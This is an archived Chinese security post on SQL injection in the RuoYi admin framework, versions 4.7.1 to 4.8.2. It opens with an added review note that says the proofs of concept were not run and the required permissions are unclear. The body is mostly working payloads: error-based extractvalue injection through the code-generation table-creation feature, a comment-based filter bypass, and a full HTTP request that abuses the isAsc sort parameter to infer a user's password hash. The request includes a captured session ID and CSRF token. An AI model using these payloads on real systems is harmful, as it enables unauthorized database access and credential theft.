





## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：4.7.1–4.7.4、4.7.5、4.8.2分别不同入口，无修复公告

代码与实验材料：CREATE TABLE SELECT错误注入和4.8.2 CASE排序请求，结果仅截图，无控制器/权限或对照

来源证据范围：安全艺术原创便笺无源码commit/官方来源

- **适用与权限边界（1）**：任意SQL功能与越权注入边界未说明；依据：代码生成创建本来处理DDL，需要说明仅授权CREATE的防护如何被绕过，而非执行SQL即漏洞。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **凭据与会话边界（2）**：多个机制未拆分且认证前提待核；依据：4.8.2 isAsc排序信道不同于createTable；保留完整JSESSIONID与CSRF令牌。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

#  RuoYi 后台SQL注入漏洞系列2  
安全艺术  安全艺术   2026-01-09 08:50  
  
# 1. RuoYi（4.7.1-4.7.4）  
## 1.1. SQL注入  
  
代码生成-创建  
```
CREATE table a1 as SELECT extractvalue(1,concat(0x7e,(select database())));
```  
  
  
  
  
# 2. RuoYi-4.7.5  
## 2.1. SQL注入  
  
代码生成-创建  
  
  
  
绕过  
```
CREATE table a1 as SELECT/**/extractvalue(1,concat(0x7e,(select/**/database())));
```  
  
  
# 3. RuoYi-4.8.2  
## 3.1. SQL注入  
```
POST /system/user/list HTTP/1.1
Host: 192.168.3.102
Content-Length: 147
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
X-CSRF-Token: yneu6NWAntf9M703Tou1JfwSF79sF9YSzrqFCT9wmL0=
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.3.102
Referer: http://192.168.3.102/tool/gen/createTable
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: JSESSIONID=0627cca5-d25b-4156-8f9e-b48eb4d0d1ea
Connection: keep-alive

pageNum=1&pageSize=10&orderByColumn=status&isAsc=,CASE WHEN u.user_id LIKE 2 THEN CASE WHEN u.password LIKE 0x24326125 THEN 0 ELSE 2 END ELSE 1 END
```  
  
  
  
更多内容进群了解哈。  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
